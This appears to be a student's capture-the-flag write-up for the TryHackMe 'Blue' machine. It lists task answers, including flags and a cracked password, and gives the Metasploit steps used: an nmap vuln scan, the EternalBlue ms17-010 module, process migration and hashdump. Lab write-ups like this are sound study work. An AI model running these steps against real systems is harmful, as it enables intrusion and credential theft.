 # Blue machine on thm

This is my first machine repository.\
This repository is made with the purpose of taking notes about the machine, therefore possible future study material.

## THM tasks

- How many ports are open with a port number under 1000?
  - 3

- What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
  - ms17-010

- Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
  - exploit/windows/smb/ms17_010_eternalblue

- Show options and set the one required value. What is the name of this value? (All caps for submission)
  - rhosts

- If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 
  - post/multi/manage/shell_to_meterpreter

- Select this (use MODULE_PATH). Show options, what option are we required to change?
  - sessions

- Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 
  - jon

- Copy this password hash to a file and research how to crack it. What is the cracked password?
  - alqfna22

- Flag1? This flag can be found at the system root. 
  - flag{access_the_machine}

- Flag2? This flag can be found at the location where passwords are stored within Windows.
  - flag{sam_database_elevated_access}

- Flag3?
  - flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. 

## Pocedure

### Scanning

First of all, I'm making an nmap scan and saving it in the file initialNmap_scan:
```
sudo nmap -sV -vv -script vuln 10.10.92.38 -oN initialNmap_scan
```

The scans shows a remote code execution (RCE) vulnerability in Microsoft SMBv1 servers.

### Exploit

This vulneravility should be exploitable with metasploit, so I'm starting it:
```
msfconsole
```

I look for the right module in metasploit:
```
search ms17-010
```

I find eternalblue and I select it:
```
use <number of module in the list>
```

After selecting it, I set the value rhosts with the IP of the target machine in THM
```
set rhosts 10.10.92.38
```

It's al set now, time to run the expoit
```
run
```

### Escalate
At this point, I'm rebooting the machine so the IP is different (10.21.13.118)

I've realised that I didn't set the lhost to my openvpn IP, and that was causing the failure, now I set it up:
```
setg lhost 10.21.13.118
```

The exploit should have set up a shell, and I was supposed to escalate it to meterpreter, but with the default payload it already escalated it, so there's no need to do it mannually.
If i run 'shell' and 'whoami' I will get that we are system.

PID of the powershell.exe NT AUTHORITY\SYSTEM: 2900

Now we migrate to this process:
```
migrate PROCESS_ID
```

Now we are in the powershell.
I now run 'hashdump' to get the hashes of the users: Jon, and check if I can crack the password in hashes.com

I've found the first flag running 'search flag*'

Now I just have to go to the directories and check them.

